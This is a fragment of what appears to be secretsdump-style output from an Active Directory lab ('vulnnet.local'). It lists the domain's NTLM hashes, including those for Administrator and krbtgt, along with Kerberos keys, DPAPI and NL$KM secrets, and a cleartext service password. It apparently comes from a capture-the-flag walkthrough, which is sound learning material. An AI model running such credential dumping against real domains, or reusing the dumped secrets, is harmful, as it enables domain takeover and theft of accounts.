VULNNET\VULNNET-BC3TCK1$:aad3b435b51404eeaad3b435b51404ee:84e221e68c17fa4f6b8edb44860b531d:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x2765d21a134388380c9c97e669311d7047c5401b
dpapi_userkey:0x40fa922dd6c454351d8b3792cd8a051983bb6815
[*] NL$KM
 0000   13 11 4A 21 68 5D 0B 83  5C 35 E7 DB 07 69 F2 9C   ..J!h]..\5...i..
 0010   5B 54 59 EA A6 74 07 4B  EA 07 DC 94 2D 11 71 0E   [TY..t.K....-.q.
 0020   49 DF 05 7E BD 91 7A 22  25 CF 5C 9E 30 EF 2D 82   I..~..z"%.\.0.-.
 0030   B7 E0 A4 3F B9 19 73 F5  92 C3 37 2C 79 94 38 85   ...?..s...7,y.8.
NL$KM:13114a21685d0b835c35e7db0769f29c5b5459eaa674074bea07dc942d11710e49df057ebd917a2225cf5c9e30ef2d82b7e0a43fb91973f592c3372c79943885
[*] _SC_Redis
enterprise-security@vulnnet.local:sand_0873959498
[*] _SC_RunScript
VULNNET\enterprise-security:sand_0873959498
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85d1fadbe37887ed63987f822acb47f1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:66d7c6f99b03f0d7f520e1e0e55f9149:::
vulnnet.local\enterprise-security:1103:aad3b435b51404eeaad3b435b51404ee:41ab3f4e60ca2215f8ae1b79b23edc10:::
vulnnet.local\jack-goldenhand:1104:aad3b435b51404eeaad3b435b51404ee:0f27eaa88eeed8637b2f38d0f2c8dab4:::
vulnnet.local\tony-skid:1105:aad3b435b51404eeaad3b435b51404ee:aadd887bcc436ae6787c876f3bf118fe:::
VULNNET-BC3TCK1$:1000:aad3b435b51404eeaad3b435b51404ee:84e221e68c17fa4f6b8edb44860b531d:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:f934989469a533a37eef073269e0a16010922322de4cf6aa872a883dce2bcdeb
Administrator:aes128-cts-hmac-sha1-96:f83f7229c7f5a79ad0a860a3f92cad6b
Administrator:des-cbc-md5:04384adc4526ef1f
krbtgt:aes256-cts-hmac-sha1-96:5e2c631e761bf5cb7e6a3c96d55bf33a69701d25f1d8f6e45af86d1a198c7091
krbtgt:aes128-cts-hmac-sha1-96:3ee4da3697d6793065e42e86f0460801
krbtgt:des-cbc-md5:4a3e8301c75289f8
vulnnet.local\enterprise-security:aes256-cts-hmac-sha1-96:a09a71a596055e698f9b9307f24daeebb8297a1bc6ebb6a05868c42d50cbafea
vulnnet.local\enterprise-security:aes128-cts-hmac-sha1-96:9390fc3f4e8b3d222c7faccb8e506572
vulnnet.local\enterprise-security:des-cbc-md5:dab90e0738fb32fe
vulnnet.local\jack-goldenhand:aes256-cts-hmac-sha1-96:82a1ef123ad1c51d2cd37ec78a60170e48999d89b5776b672d970e6338048eb3
vulnnet.local\jack-goldenhand:aes128-cts-hmac-sha1-96:2cbb450a73a4514068ecfac923ad75d6
vulnnet.local\jack-goldenhand:des-cbc-md5:4338765bbc29516e
vulnnet.local\tony-skid:aes256-cts-hmac-sha1-96:bbec9db669aa5d2db0bc53054253b09a5b392163801b8bc6a4a744bb4f33ed14
vulnnet.local\tony-skid:aes128-cts-hmac-sha1-96:74c8ed411d6a69baa14d4fa123d19dc1
vulnnet.local\tony-skid:des-cbc-md5:0846ef3e5eea433b
VULNNET-BC3TCK1$:aes256-cts-hmac-sha1-96:9b9f095ee5c8226ae5662892bcae8fc44cf8d1b261d50d6d6ab69605d74a1ae0
VULNNET-BC3TCK1$:aes128-cts-hmac-sha1-96:84d892736cac9f5dc1814183af5b9386
VULNNET-BC3TCK1$:des-cbc-md5:04d31a57b5e9dcbf
[*] Cleaning up...

```
